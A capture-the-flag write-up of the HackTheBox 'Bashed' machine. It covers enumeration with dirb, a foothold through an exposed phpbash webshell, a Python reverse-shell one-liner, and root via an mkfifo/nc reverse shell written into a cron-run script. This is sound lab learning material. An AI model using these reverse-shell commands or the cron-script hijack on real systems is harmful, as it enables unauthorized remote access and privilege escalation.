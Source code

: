 ```yaml
---
title: HackTheBox - Bashed
categories: writeups
layout: post
date: 2020-07-08 22:24 -0500
---
```

![Bashed](/assets/images/HTBoxes/Bashed/Bashed.png)

# Summary
This was a box that mainly involved scanning the web server for interesting items and then gaining foothold via a php webshell called phpbash.  Privilege escalation was a good exercise in not overcomplicating python code.

# Walkthrough

### Enumeration
Started with the usual nmap scan of ``nmap -T4 -A -v 10.10.10.68``.  Only thing found was a webserver so I looked at the webserver.

![phpbash webpage](/assets/images/HTBoxes/Bashed/Bashed-website.png)

I decided to run ``dirb`` as I have used ``gobuster`` before but not ``dirb`` so it ws a chance to get familiar with the tool. It seems to have its default wordlisting for directories and that worked here.

```bash
dirb http:///10.10.10.68

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jul  7 22:41:29 2020
URL_BASE: http:///10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http:///10.10.10.68/ ----
+ http:///10.10.10.68/css (CODE:301|SIZE:308)
+ http:///10.10.10.68/dev (CODE:301SIZE:308)
+ http:///10.10.10.68/fonts (CODE:301|SIZE:310)
+ http:///10.10.10.68/images (CODE:301|SIZE:311)
+ http:///10.10.10.68/index.html (CODE:200|SIZE:7743)
+ http:///10.10.10.68/js (CODE:301|SIZE:307)  
+ http:///10.10.10.68/php (CODE:301|SIZE:308) 
+ http:///10.10.10.68/server-status (CODE:403|SIZE:299)
+ http:///10.10.10.68/uploads (CODE:301|SIZE:312)

-----------------
END_TIME: Tue Jul  7 22:45:06 2020
DOWNLOADED: 4612 - FOUND: 9
```

The noticable thing here that leads to something is ``/dev``.  Browsing to it shows us that ``phpbash`` is indeed available for use.  So browsing to ``http://10.10.10.68/dev/phpbash.php`` gave me a webshell.

![phpbash](/assets/images/HTBoxes/Bashed/phpbash-webshell.png)

### Foothold
I had issues trying to figure out how to use phpbash to get a reverse shell.  The usual ``nc`` command wasn't working, and the usual ``mkfifo`` one-liner workaround didn't work inside the webshell.  Also noticed perl and a few others weren't available as well.  For me only a python reverse shell one-liner worked:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

After getting a shell, I upgraded it with the standard python command:  
``python -c 'import pty; pty.spawn("/bin/bash")'``

Immediately after doing this I was getting an echo of each character
_lliikkee tthhiiss_

So I did a ``CTRL+Z`` to the background and ran ``stty raw -echo`` followed by ``fg`` to get my shell back, and the echo was gone.

I immediately went to ``/home`` and noticed that arrexel's user folder had world readable permissions on the user.txt file. I was able to ``cat`` it easily as the www-data user.

### Privilege Escalation
Looking around the filesystem (and a peek at the official HTB walkthrough cause honestly, I have to be effective with my time at this point in my life) we see the ``/scripts`` root directory is owned by the _scriptmanager_ user.

Checking out ``sudo -l`` options we see that we can run anything as this _scriptmanager_ user so I grab a shell as the user via this command:
``sudo -u scriptmanager /bin/bash``

Moving into the interesting ``/scripts`` directory we see a couple files: ``test.py`` and ``test.txt``.

The ``test.txt`` file seems to update its timestamp every minute or so and is owned by _root_.  Looking at the contents of the ``test.py`` we can see why - it is simply putting text into the txt file when it executes.  _root_ must be executing it since it is the owner of the ``test.txt`` file.

Now that I had write access to the ``test.py`` file, I just needed to write some python code to give me a reverse shell.  I did some Googling and discovered this is as easy as just using native python os lib.

Since the native ``nc`` binary didn't support ``-e``.  I just went with the bash ``mkfifo`` one-liner that works when ``nc -e`` isn't available.

In ``test.py`` I added the code via an ``echo`` command:

```bash
echo "import os; os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4445 >/tmp/f')" > test.py
```

I had my `nc -lvnp 4445` listener up and it received a shell.  Got ``/root/root.txt`` without issue.

### Lessons Learned
Overall a pretty fun and straightforward box.  My first writeup as a means of keeping notes.  If it is helpful to others, that is great!  

In the future, I'm hoping to get better with screenshots etc. or learning how to capture the commands and output in gifs.  We will see.

As mentioned this was pretty straight forward.  I learned not to overcomplicate python code when you have an available escalation path via a root cronjob.
